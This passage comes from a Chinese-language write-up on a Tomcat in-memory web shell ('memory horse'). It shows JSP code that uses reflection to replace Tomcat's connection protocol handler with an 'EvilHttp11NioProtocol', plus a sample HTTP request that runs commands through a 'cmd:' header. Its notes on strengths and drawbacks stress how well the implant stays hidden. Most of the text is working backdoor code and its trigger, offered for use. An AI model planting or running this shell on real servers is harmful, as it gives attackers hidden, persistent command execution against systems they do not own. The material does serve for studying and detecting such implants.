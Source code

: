 ```plain
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }
%>

<%
    try {
        // oldhttp11NioProtocol = new EvilHttp11NioProtocal();
        // 拿到内部类对象
        // Object obj = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler");
        Object obj = getTheHandler();
        Field field = obj.getClass().getDeclaredField("proto");
        makeSettable(field);

        // 修改
        field.set(obj, new EvilHttp11NioProtocol());
    }catch (Exception e){
        e.printStackTrace();
    }
%>
```

## 使用说明

### 说明

HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器

```plain
GET /Tomcat_demo_war_exploded/Http11NioProtocolMemshell.jsp HTTP/1.1
Host: 192.168.47.1:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
cmd: ikunnotepadikun
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

第一次发送报文注入，下一次访问即可执行上一次的参数。

### 缺点

当前研究进度，此内存马有以下缺点：

*   获得的参数是上一次报文的参数；
*   无法有回显；
*   未在其他 Tomcat版本测试；

### 优点

*   植入后隐蔽性良好；
